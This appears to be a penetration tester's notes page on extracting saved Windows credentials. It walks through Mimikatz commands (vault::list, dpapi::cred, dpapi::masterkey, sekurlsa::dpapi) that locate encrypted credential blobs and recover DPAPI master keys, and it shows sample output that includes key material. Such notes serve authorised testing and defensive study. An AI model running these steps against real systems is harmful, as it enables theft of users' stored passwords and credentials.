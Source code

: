 >mimikatz vault::list
>mimikatz sekurlsa::dpapi

## Extract passwords locally
1. Get subfolder path of {SID}
``````sh
Get-ChildItem C:\Users\$env:username\AppData\Roaming\Microsoft\Protect\{SID}\xxx

 Mode                 LastWriteTime         Length Name
 ----                 -------------         ------ ----
 -a-hs-        16.03.2022     13:00            468 29deba8c-55de-4930-97d5- 7d949402541b
 -a-hs-        16.03.2022     13:01            468 c3b72001-5fd0-4a1d-b548- b4e6fcecd431
 -a-hs-        24.01.2022     20:00             24 Preferred
``````

2. Choose one of the encrypted creds
``````powershell
Get-ChildItem -Hidden C:\Users\$env:username\AppData\Local\Microsoft\Credentials

 Mode                 LastWriteTime         Length Name
 ----                 -------------         ------ ----
 -a-hs-        05.01.2022     20:00           3252 040F76937B2E54B70658AF91D1BEBCCF
 -a-hs-        15.03.2022     14:06           3012 0437BF9439473166B0F4C16EC80BC809
``````

3. Check for guid masterkey of encrypted creds via [[Mimikatz]]
``````powershell
dpapi::cred /in:C:\Users\patri\AppData\Local\Microsoft\Credentials\040F76937B2E54B70658AF91D1BEBCCF

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {c3b72001-5fd0-4a1d-b548-b4e6fcecd431}
``````

4. Get DPAPI master key listed in 3 as guidMasterKey.
``````powershell
dpapi::masterkey /in:C:\Users\patri\AppData\Roaming\Microsoft\Protect\S-1-5-21-3318663386-1925972964-1342212060-1001\c3b72001-5fd0-4a1d-b548-b4e6fcecd431 /rpc

# OR VIA LOCAL IF NOT DOMAIN JOINED
sekurlsa::dpapi

Authentication Id : 0 ; 658810602 (00000000:2744a6ea)
Session           : Interactive from 3
User Name         : patri
Domain            : PHANTOM
Logon Server      : (null)
Logon Time        : 16.03.2022 12:59:58
SID               : S-1-5-21-3318663386-1925972964-1342212060-1001
         [00000000]
         * GUID      :  {c3b72001-5fd0-4a1d-b548-b4e6fcecd431}
         * Time      :  16.03.2022 13:07:03
         * MasterKey :  877b54004621de000414e1e85af59928027d55f6be31beafd8007ad21779e3eb75ec95b58ebcedf4333a7c38c[SNIP]21f9ba45cb6a1ea974839762
         * sha1(key) :  71e8820de4c5f31bc7d81c44ed85bcc720e46536
         [00000001]
         * GUID      :  {29deba8c-55de-4930-97d5-7d949402541b}
         * Time      :  16.03.2022 13:32:13
         * MasterKey :  976241ce72ce24871d8b5c05775549a8025e4a8d8c52594c57d7d8206dd5d4f0889c9a242d2fed8b562c703f82[SNIP]091ce38cbb27346be13abef8
         * sha1(key) :  c27a0c1eb6a9b65c698cad771fa6346e3517e148
``````
